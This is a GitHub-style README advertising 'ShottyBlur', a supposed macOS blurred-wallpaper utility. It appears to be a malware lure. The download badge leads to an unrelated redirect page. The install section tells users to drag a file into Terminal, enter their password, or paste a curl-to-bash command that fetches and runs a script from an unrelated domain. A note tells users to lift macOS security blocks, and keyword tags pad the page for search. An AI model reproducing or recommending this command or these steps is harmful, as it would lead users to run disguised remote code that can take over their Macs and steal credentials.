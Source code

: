 <p align="center">
  <img src="https://i.ibb.co/Lhr8NqQv/1603799096-shottyblur.png" alt="ShottyBlur macOS Banner" />
</p>

<h1 align="center">ShottyBlur for macOS</h1>

<p align="center">
  🌫️ Instantly turn screenshots into beautiful blurred wallpapers. One-click export.  
  <br><br>
  ✅ Native Apple Silicon & Intel support  
  ✅ Supports macOS Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/179" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20SHOTTYBLUR%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download ShottyBlur for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://i.ibb.co/wZpp77Ns/1603799084-1.jpg" alt="ShottyBlur Interface Screenshot" />
</p>

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is ShottyBlur?

**ShottyBlur** is a minimal macOS utility that transforms screenshots or images into elegant, blurred desktop wallpapers. Ideal for users who want a distraction-free background that still reflects their workspace or aesthetic.

With just one click, ShottyBlur applies high-quality blur filters and exports Retina-optimized wallpapers — perfect for MacBook or iMac screens. No design skills needed, no internet connection required.

Designed to be lightweight, fast, and entirely offline — with native support for **Apple Silicon (M1/M2/M3)**.

---

## ✅ Why Choose ShottyBlur?

- 🌫️ **Create Aesthetic Blur Wallpapers**  
- 🖼️ **Turn Screenshots into Backgrounds**  
- 📸 **Drag, Drop, Blur – Done**  
- 💻 **Perfect for Clean macOS Workspaces**  
- 🎯 **Retina-Optimized Wallpaper Output**  
- ⚡ **Lightweight & Fast Utility**  
- 🔒 **Works 100% Offline**  
- 🧠 **No Design Skills Needed**

---

## 📸 More Screenshots

<p align="center">
  <img src="https://i.ibb.co/67NdmKrr/1603799019-2.jpg" alt="ShottyBlur Blurred Wallpaper Preview" />
  <br><br>
  <img src="https://i.ibb.co/wZQ82rZY/1603799064-3.jpg" alt="ShottyBlur Export Screen Screenshot" />
</p>

---

## 🚀 Key Features

- Auto-detects latest screenshots  
- One-click blur and export  
- Customize blur intensity  
- Supports all image formats  
- Retina wallpaper optimization  
- Offline use only – no sync  
- No UI clutter or distractions  
- Apple Silicon native binary

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:
- Go to **System Settings > Privacy & Security**  
- Allow ShottyBlur under "App Management"

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Category-Blur+Wallpaper+Generator-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Interface-One+Click+Image+Blurring-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ ShottyBlur – Minimal, Blurred, Beautiful

Thanks for using **ShottyBlur for macOS**.  
A faster way to create clean, personalized wallpapers.

---

## 🧭 Usage Context

This utility is intended for offline, local image enhancement for aesthetic wallpaper creation.  
No telemetry, no syncing, and no third-party cloud use.

All processing is done on your machine.  
Not affiliated with Apple Inc. or design platforms.

---

## 🔍 Tags

```text
shottyblur for mac download, blurred wallpaper creator macos, screenshot to background blur tool mac, shottyblur macos retina wallpaper app, minimal blur wallpaper generator macbook, shottyblur m1 mac native utility, create blur wallpapers from screenshots mac, distraction free background tool mac, fast blur image export tool macos, customize blur level wallpaper app mac, offline macos wallpaper generator shottyblur, convert image to blur mac tool, generate smooth blurred wallpaper mac, desktop aesthetics blur background mac, shottyblur mac drag and drop blur app

